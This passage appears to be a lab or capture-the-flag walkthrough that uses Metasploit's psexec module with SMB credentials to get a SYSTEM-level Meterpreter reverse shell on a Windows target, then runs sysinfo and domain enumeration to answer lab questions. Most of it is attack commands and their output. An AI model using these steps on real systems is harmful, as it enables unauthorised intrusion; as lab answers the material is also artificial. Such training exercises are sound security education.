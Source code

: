 ```bash
```

The SMB port `445` is already in use, so set up the rest.

```bash 
msf6 exploit(windows/smb/psexec) > set lhost <your_ip>
msf6 exploit(windows/smb/psexec) > set rhosts <target_ip>
msf6 exploit(windows/smb/psexec) > set smbuser ballen
msf6 exploit(windows/smb/psexec) > set smbpass Password1
```

Output:

```bash 
msf6 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 10.8.177.116:4444 
[*] 10.10.222.233:445 - Connecting to the server...
[*] 10.10.222.233:445 - Authenticating to 10.10.222.233:445 as user 'ballen'...
[*] 10.10.222.233:445 - Selecting PowerShell target
[*] 10.10.222.233:445 - Executing the payload...
[+] 10.10.222.233:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (177734 bytes) to 10.10.222.233
[*] Meterpreter session 2 opened (10.8.177.116:4444 -> 10.10.222.233:49341) at 2025-07-31 06:22:48 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

---

## Questions

*What is the computer name?*

```bash
meterpreter > sysinfo
Computer        : ACME-TEST
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : FLASH
Logged On Users : 7
Meterpreter     : x86/windows
```

---

*What is the target domain?*

Background the meterpreter session and google **metasploit modules for domain enumeration**. Then, use it on the backgrounded session:

```bash
msf6 exploit(windows/smb/psexec) > use post/windows/gather/enum_domain
msf6 post(windows/gather/enum_domain) > sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ ACME-T  <your_ip>:4444 -> <target_ip>
                                     EST                           :49341 (<target_ip>)

msf6 post(windows/gather/enum_domain) > show options
```